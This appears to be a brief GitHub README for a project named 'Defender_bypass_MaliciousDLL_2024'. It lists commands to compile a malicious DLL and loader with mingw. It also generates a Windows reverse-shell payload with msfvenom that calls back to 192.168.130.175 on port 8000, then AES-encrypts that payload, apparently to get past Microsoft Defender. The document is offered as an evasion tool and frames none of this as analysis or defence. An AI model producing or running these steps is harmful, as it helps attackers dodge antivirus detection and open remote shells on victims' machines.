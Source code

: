 # Defender_bypass_MaliciousDLL_2024
To compile
>x86_64-w64-mingw32-g++ --static -o test.exe process.cpp -fpermissive -lws2_32

>x86_64-w64-mingw32-g++ --static --shared -o start.dll bypassdll.cpp -fpermissive

>msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.130.175 LPORT=8000 -f raw > beacon.bin

>python aes.py beacon.bin
